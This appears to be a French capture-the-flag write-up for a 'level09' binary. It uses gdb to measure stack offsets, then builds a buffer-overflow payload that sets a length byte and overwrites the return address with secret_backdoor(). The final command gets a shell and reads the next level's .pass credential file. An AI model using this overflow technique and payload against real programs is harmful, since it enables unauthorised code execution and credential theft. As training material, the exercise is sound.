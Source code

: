 Je calcule la différence entre [rbp et rsp](https://medium.com/@sharonlin/useful-registers-in-assembly-d9a9da22cdd9) : `0x7fffffffe580 - 0x7fffffffe4c0 = 0xc0 = 192` bytes. Dans l'ASM :

```h
(gdb) disas handle_msg
Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:     push   %rbp
   0x00000000000008c1 <+1>:     mov    %rsp,%rbp
   0x00000000000008c4 <+4>:     sub    $0xc0,%rsp
   0x00000000000008cb <+11>:    lea    -0xc0(%rbp),%rax <--------------- buffer
   0x00000000000008d2 <+18>:    add    $0x8c,%rax
   0x00000000000008d8 <+24>:    movq   $0x0,(%rax)
```

Commence à `0xc0`, soit `rbp`, donc il faut bien 192 bytes pour commencer l'overflow. Il faut ensuite ajouter 8 bytes pour atteindre la `return address` (et non 4 car nous sommes dans un système 64-bit ici).

Donc, ce qui sera écrit après le padding de 200 bytes ré-écrira l'adresse de retour de la fonction `handle_msg`. Je récupère donc l'adresse de `secret_backdoor()` :

```bash
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

En additionnant mes 200 bytes de padding ainsi que l'adresse de `secret_backdoor()`, j'obtiens un total de 208 bytes. Il faut donc que l'overflow original qui ré-écrit sur un byte à `msg->len` lui donne la valeur de 208, afin qu'au moment où :

```c
void set_msg(t_msg *msg)
{
    ...
    strncpy(msg->text, buf, msg->len);
}
```

`set_msg()` copie le buffer dans `msg->text`, il écrive 208 caractères, et non 140 au maximum, ce qui va ré-écrire la stack de `handle_msg()` et changer son adresse de retour à `secret_backdoor()`.

Je dois construire le payload avec les considérations suivante :

- 40 caractères pour remplir le buffer `msg->user`
- 1 caractère pour overflow sur `msg->len` et lui faire valoir 208 (208 en hexa = 0xd0)
- Un `\n` pour "valider" le premier `fgets()` qui demande l'username
- Le padding de 200 bytes
- Enfin, l'adresse de `secret_backdoor`

Je le construis :

```h
'\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'
```

Et l'essaye :

```bash
$ (python -c "print('\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])" && cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
Segmentation fault (core dumped)
```

